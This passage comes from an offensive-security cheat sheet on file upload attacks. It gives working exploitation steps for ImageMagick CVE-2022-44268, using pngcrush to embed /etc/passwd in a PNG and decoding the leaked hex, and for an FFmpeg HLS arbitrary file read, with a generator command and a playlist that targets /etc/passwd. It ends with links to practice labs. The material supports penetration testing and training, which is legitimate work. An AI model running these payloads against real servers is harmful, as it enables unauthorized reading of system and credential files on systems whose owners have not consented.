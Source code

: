 The vulnerability can be triggered by using the `convert` command.

```ps1
convert shellexec.jpeg whatever.gif
```


#### CVE-2022-44268

CVE-2022-44268 is an information disclosure vulnerability identified in ImageMagick. An attacker can exploit this by crafting a malicious image file that, when processed by ImageMagick, can disclose information from the local filesystem of the server running the vulnerable version of the software.

* Generate the payload
    ```ps1
    apt-get install pngcrush imagemagick exiftool exiv2 -y
    pngcrush -text a "profile" "/etc/passwd" exploit.png
    ```
* Trigger the exploit by uploading the file. The backend might use something like `convert pngout.png pngconverted.png`
* Download the converted picture and inspect its content with: `identify -verbose pngconverted.png`
* Convert the exfiltrated data: `python3 -c 'print(bytes.fromhex("HEX_FROM_FILE").decode("utf-8"))'` 

More payloads in the folder `Picture ImageMagick/`.


### CVE - FFMpeg HLS

FFmpeg is an open source software used for processing audio and video formats. You can use a malicious HLS playlist inside an AVI video to read arbitrary files.

1. `./gen_xbin_avi.py file://<filename> file_read.avi`
2. Upload `file_read.avi` to some website that processes videofiles
3. On server side, done by the videoservice: `ffmpeg -i file_read.avi output.mp4`
4. Click "Play" in the videoservice.
5. If you are lucky, you'll the content of `<filename>` from the server.

The script creates an AVI that contains an HLS playlist inside GAB2. The playlist generated by this script looks like this:

```ps1
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:1.0
GOD.txt
#EXTINF:1.0
/etc/passwd
#EXT-X-ENDLIST
```

More payloads in the folder `CVE FFmpeg HLS/`.


## Labs 

* [PortSwigger - Labs on File Uploads](https://portswigger.net/web-security/all-labs#file-upload-vulnerabilities)
* [Root Me - File upload - Double extensions](https://www.root-me.org/en/Challenges/Web-Server/File-upload-Double-extensions)
* [Root Me - File upload - MIME type](https://www.root-me.org/en/Challenges/Web-Server/File-upload-MIME-type)
* [Root Me - File upload - Null byte](https://www.root-me.org/en/Challenges/Web-Server/File-upload-Null-byte)
* [Root Me - File upload - ZIP](https://www.root-me.org/en/Challenges/Web-Server/File-upload-ZIP)
* [Root Me - File upload - Polyglot](https://www.root-me.org/en/Challenges/Web-Server/File-upload-Polyglot)
